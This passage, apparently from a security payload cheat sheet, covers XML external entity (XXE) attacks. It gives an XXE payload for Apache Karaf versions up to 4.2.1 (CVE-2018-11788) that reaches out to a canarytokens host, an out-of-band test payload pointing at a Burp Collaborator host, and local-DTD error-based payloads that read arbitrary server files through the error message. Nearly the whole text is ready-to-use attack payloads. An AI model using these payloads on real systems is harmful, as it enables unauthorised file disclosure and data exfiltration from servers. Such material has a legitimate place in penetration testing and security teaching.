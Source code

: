 - Apache Karaf <= 4.2.1
- Apache Karaf <= 4.1.6

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://27av6zyg33g8q8xu338uvhnsc.canarytokens.com"> %dtd;]
<features name="my-features" xmlns="http://karaf.apache.org/xmlns/features/v1.3.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://karaf.apache.org/xmlns/features/v1.3.0 http://karaf.apache.org/xmlns/features/v1.3.0">
    <feature name="deployer" version="2.0" install="auto">
    </feature>
</features>
```

Send the XML file to the `deploy` folder.

Ref. [brianwrf/CVE-2018-11788](https://github.com/brianwrf/CVE-2018-11788)

## XXE with local DTD

In some case, outgoing connections are not possible from the web application. DNS names might even not resolve externally with a payload like this:

```xml
<!DOCTYPE root [<!ENTITY test SYSTEM 'http://h3l9e5soi0090naz81tmq5ztaaaaaa.burpcollaborator.net'>]>
<root>&test;</root>
```

If error based exfiltration is possible, you can still rely on a local DTD to do concatenation tricks. Payload to confirm that error message include filename.

```xml
<!DOCTYPE root [
    <!ENTITY % local_dtd SYSTEM "file:///abcxyz/">

    %local_dtd;
]>
<root></root>
```

Assuming payloads such as the previous return a verbose error. You can start pointing to local DTD. With an found DTD, you can submit payload such as the following payload. The content of the file will be place in the error message.

```xml
<!DOCTYPE root [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">

    <!ENTITY % ISOamsa '
        <!ENTITY &#x25; file SYSTEM "file:///REPLACE_WITH_FILENAME_TO_READ">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        '>

    %local_dtd;
]>
<root></root>
```

